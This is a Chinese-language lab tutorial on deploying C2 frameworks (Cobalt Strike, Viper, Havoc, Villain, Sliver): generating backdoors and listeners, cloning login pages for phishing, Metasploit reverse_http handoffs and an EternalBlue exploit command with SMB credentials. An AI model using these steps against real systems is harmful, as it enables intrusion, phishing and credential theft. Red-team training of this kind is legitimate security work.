# 一 Cobaltstrike

## 1 服务器端启动

```
./teamserver 192.168.1.176 123456
```

团队服务器的启动命令包含两个必填的参数和两个选填的参数。
第一个必选参数是团队服务器的外部可达 IP 地址。Cobalt Strike 使用这个值作为它的功能使用的默认主机地址。
第二个必选参数是密码,你的团队成员将使用此密码从自己 Cobalt Strike 客户端去连接至 Cobalt Strike团队服务器。




## 2 客户端启动

```
sh start.sh
```



```
Alias:随意起个标识性的名字即可。
主机：填写服务器IP地址
端口：填写服务器端口，默认为50050
用户名：不作为认证使用，登录后所展示的名字
密码：填写服务器启动时所设置的密码
```

登录成功后即可看到如下的内容。




## 3 安装插件

Cobaltstrike安装插件后可以扩展相对应的功能。

安装插件在Cobalt Strike -->脚本管理器-->load-->***.cna



3.1 添加钉钉的插件























3.2 添加梼杌插件

直接load即可：），其他攻击类型的插件方式一致。




## 4 利用Cobalt Strike进行钓鱼攻击

攻击-->钓鱼攻击-->克隆网站

填入克隆网址即可，一般可以采用克隆登录页面。



点击Clone后，访问172.16.0.2:80即可访问到钓鱼站点，随后可通过邮件的方式进行钓鱼。






```
视图-->web日志
攻击-->钓鱼攻击-->web服务管理
```


## 5 后门生成及上线

5.1 启动监听器：Cobalt strike-->监听器-->Add


```
名字：监听器的名字，更多的用于识别。

Payload:
	Beacon 是 Cobalt Strike的 payload，用于建模高级攻击者。使用 Beacon 来通过 HTTP，HTTPS 或 DNS 出口网络。你也可以通过控制经由命名管道和 TCP sockets 的对等（peer-to-peer）Beacon 从而限制出口网络，只允许部分主机直接回连。
	Foreign Listeners：Cobalt Strike 支持对外监听器的概念。这些是托管在 Metasploit 框架或其他 Cobalt Strike 实例的 x86 payload handler 的别名。要传递一个Windows HTTPS Meterpreter 会话到一个使用 msfconsole 的朋友那里，建立一个Foreign HTTPS payload 并将主机和端口的值指向它们的 handler。你可以在任何你想要使用 x86 Cobalt Strike 监听器的地方使用 foreign listener（对外监听器）。

HTTPS Hosts:回连的主机地址，可以填写IP或者域名。

Host rotation Strategy:个人理解是回包的连接方式（轮询、随机、失败次数）

HTTP Host(Stager) 字段控制 HTTP Beacon 的 HTTP Stager 的主机。仅当你将此 payload 与需要显式 stager 的攻击配对时，才使用此值。

通过 Profile 字段，你可以选择一个 C2 拓展文件变体。通过一个 C2 文件变体，你可以在一个文件中指定多个配置文件的变量。使用变体文件之后，你设置的每个 HTTP 或 HTTPS 监听器会有不同的网络流量指标。

HTTP Port(C2) 字段设置你的 HTTP Beacon 回连的端口。 

HTTP Port(Bind) 字段指定你的 HTTP Beacon payload web 服务器绑定的端口。如果你要设置端口重定向器（例如，接受来自 80或443 端口的连接但将连接路由到团队服务器开在另一个端口上的连接，这样的重定向器），那么这些选项会很有用。

点击 HTTP Proxy 字段旁边的 ... 按钮来为此payload指定一个显式的代理配置
```




5.2 生成后门：攻击-->生成后门-->Windows Executable

选择好对应的监听器后，点击Generate即可（是否勾选X64看实际情况）



当在目标主机中成功执行后，即可上线至CS。




## 6 基础使用

在默认的状态下，主机与目标主机通讯存在时间的间隔，默认60秒。

```
上线的主机点击右键-->进入beacon--> 输入sleep 0
```



在beacon中，使用shell+commnd的方式可以向目标主机传递命令。



剩下的就可以交给鼠标了：），建议后续可以尝试的功能清单：

```
派生会话
梼杌-->提权
mimikatz与视图-->凭证信息
beacon> screenshot截图
右键-->目标-->文件管理
右键-->中转-->socks server
```


## 7 胡里花哨的使用

### 7.1 cs2msf

当我们遇到某些情况时，我们希望利用msf完成后续攻击，那么可以将cs的shell转给msf。

在cs中建立新的监听器，类型为Foreign HTTP，Host填写msf主机的地址，端口随意。



随后在msf中启动监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 172.16.0.2
set lport 4444
exploit
```

在CS中，选择派生会话，并将payload选择为刚建立好的监听器后即可上线至msf。




### 7.2 msf2cs

将msf获取到shell同样可以传载至cs中。

在cs中，建立新的监听器



在msf执行攻击时，需要调整payload的方式（用永恒之蓝举例）：

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lport 5555
set lhost 172.16.0.2
set smbuser admin
set smbpass Fsec.io!
set rhosts 172.16.0.203
exploit
```

攻击完成后，msf并不会获取到shell，而是在cs中将会上线(从listener进行分辨)。




### 7.3 msf使用cs proxy

在cs启动socks代理服务:

```
右键-->中转-->socks server
或在beacon> socks 8787
```



随后在视图-->代理信息中查看



选择Tunnel，新的弹窗中会出现一行指令，复制给msf即可。






### 7.4 上线Linux主机

```
scp 172.16.21.223:/opt/CS4.2/.cobaltstrike.beacon_keys .
```




修改CrossC2.cna路径为当前路径（注意上面只写路径，以/结尾）



启动cs客户端添加https的监听即可





选择监听为https



弹出payload即可，直接粘贴全部命令到linux服务器即可，注意受害机必须有curl，其他方式还有wget php python。



## 8 隐藏信息

略


# 二 viper

- Viper(炫彩蛇)是一款图形化内网渗透工具,将内网渗透过程中常用的战术及技术进行模块化及武器化.

- Viper(炫彩蛇)集成杀软绕过,内网隧道,文件管理,命令行等基础功能.

- Viper(炫彩蛇)当前已集成70+个模块,覆盖初始访问/持久化/权限提升/防御绕过/凭证访问/信息收集/横向移动等大类.

- Viper(炫彩蛇)目标是帮助红队工程师提高攻击效率,简化操作,降低技术门槛.

- Viper(炫彩蛇)支持在浏览器中运行原生msfconsole,且支持多人协作.

  项目地址：https://github.com/FunnyWolf/Viper


```
###建立做个Ubuntu server虚拟机模拟vps主机
sysctl -w vm.max_map_count=262144
curl -o f8x https://f8x.io/   # wget -O f8x https://f8x.io/
bash f8x -viper
```





完成后访问https://IP:60000/#/user/login，默认用户名root,密码为安装时所设置的口令。




2 创建监听器并上线主机




选择生成载荷后，选择exe即可下载文件。



在目标主机执行后即可上线至viper中。




Msfconsole的模块可以直接调用metasploit。其他的功能自由发挥吧：）


# 三 havoc

Havoc is a modern and malleable post-exploitation command and control framework.

项目地址:https://github.com/HavocFramework/Havoc



我们模拟的场景是模拟购买了一台Ubuntu的云主机部署服务端，kali作为客户端。


### server端（Ubuntu_server上进行操作）：

将软件包拷贝至目标主机，并登陆主机后切换到root：

```
scp -r Havoc-main fsec@172.16.0.5:/home/fsec
ssh -l fsec 172.16.0.5
sudo -s
```







安装基础依赖包：

```
apt install -y git build-essential apt-utils cmake libfontconfig1 libglu1-mesa-dev libgtest-dev libspdlog-dev libboost-all-dev libncurses5-dev libgdbm-dev libssl-dev libreadline-dev libffi-dev libsqlite3-dev libbz2-dev mesa-common-dev qtbase5-dev qtchooser qt5-qmake qtbase5-dev-tools libqt5websockets5 libqt5websockets5-dev qtdeclarative5-dev golang-go qtbase5-dev libqt5websockets5-dev libspdlog-dev python3-dev libboost-all-dev mingw-w64 nasm
```



将go的源更换为国内：

```
go env -w GO111MODULE=on
go env -w GOPROXY=https://goproxy.cn,direct
```



安装其他Go语言依赖项：

```
cd Havoc-main/Teamserver/
go mod download golang.org/x/sys
go mod download github.com/ugorji/go
```



安装MUSL C 编译器：

```
./Install.sh
```



构建二进制后即可启动：

```
make
./teamserver -h 
```






### client端（kali中进行操作）：

安装基础依赖包：

```
apt install -y git build-essential apt-utils cmake libfontconfig1 libglu1-mesa-dev libgtest-dev libspdlog-dev libboost-all-dev libncurses5-dev libgdbm-dev libssl-dev libreadline-dev libffi-dev libsqlite3-dev libbz2-dev mesa-common-dev qtbase5-dev qtchooser qt5-qmake qtbase5-dev-tools libqt5websockets5 libqt5websockets5-dev qtdeclarative5-dev golang-go qtbase5-dev libqt5websockets5-dev libspdlog-dev python3-dev libboost-all-dev mingw-w64 nasm
```


进入到Havoc-main/Client目录中进行编译：

```
make 
./Havoc 
```


如果能够弹出窗口代表编译正确。


### 启动server并客户端进行连接：

启动teamserver服务端：

```
./teamserver server --profile ./profiles/havoc.yaotl -v --debug
```


客户端填写相关信息--<用户名密码在server的havoc.yaotl文件中有写>


在View-->Listeners-->Add中建立监听器：


随后在Attack-->Payload可生成对应的后门文件。


执行后即可上线至Havoc。


# 四 villain

Villain is a Windows & Linux backdoor generator and  multi-session handler that allows users to connect with sibling servers  (other machines running Villain) and share their backdoor sessions,  handy for working as a team.

The main idea behind the payloads generated by this tool is inherited from [HoaxShell](https://github.com/t3l3machus/hoaxshell). One could say that Villain is an evolved, steroid-induced version of it.

安装：

```
git clone https://github.com/t3l3machus/Villain
cd ./Villain
pip3 install -r requirements.txt
```


使用

启动villain：

```
python Villain.py
```


生成后门：

```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
# For Linux:
Villain > generate os=linux lhost=172.16.0.2
```


generate所支持的参数类型清单如下：


将生成的内容传送至目标主机运行后，即可上线后门。


可以通过shell sessionID的方式进入进入主机执行命令。


# 五 silver

Sliver 是一个基于Go的开源、跨平台的红队平台，可供各种规模的组织用于执行安全测试。Sliver 的支持 C2 over Mutual-TLS、HTTP(S) 和 DNS等协议。implant可以时时编译生成，并会使用证书进行加密。服务器和客户端以及implant都支持MacOS、Windows 和 Linux。支持团队合作。

```
Sliver Server用于与服务器交互，交互的主接口是gRPC接口，通过该接口可以实现所有功能。视为服务端。
Sliver Client 是用于与Sliver Server交互的用户界面。视为客户端。
```

## 5.1 安装调试

在server端的调试中，需要完成如下的指令：

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
chmod +x sliver-server_linux
./sliver-server_linux
new-operator --name BTSEC --lhost 172.16.0.2 #新建一个client
multiplayer #启用多用户
```


在client端的调试中，需要完成如下的指令：

```
chmod +x sliver-client_linux
./sliver-client_linux import /root/sliver/BTSEC_xx.xx.xx.xx.cfg
./sliver-client_linux
```


## 5.2 使用

### 5.2.1 生成backdoor

在sliver中，backdoor的模式分为mtls、http、https、dns四类，生成的指令结构为：

```
generate --type IP --save 路径 --os xxx
```

使用如下的指令可以生成对应的backdoor：

```
generate --mtls 172.16.0.2 --save /tmp --os Windows
generate --mtls 172.16.0.2 --save /tmp --os Linux
```


### 5.2.2 开启监听器

启动mtls的监听

```
mtls --lhost 172.16.0.2 --lport 8888
jobs
```


当上线后，在server端会出现提示：


如果使用http方案，可以采用如下的指令：

```
generate --http ip:port    ###快速生成后门
http -l 9999               ###启动监听器
```


### 5.2.3 其他指令

implants命令可以查看生成过的implants(个人理解成生成过的shell做个展示)


sessions命令查看目前会话


`sessions -i`进入会话   `sessions -k`结束会话   `use ID`同样可以进入会话


进入会话后的内容可通过help进行查看，不在赘述。


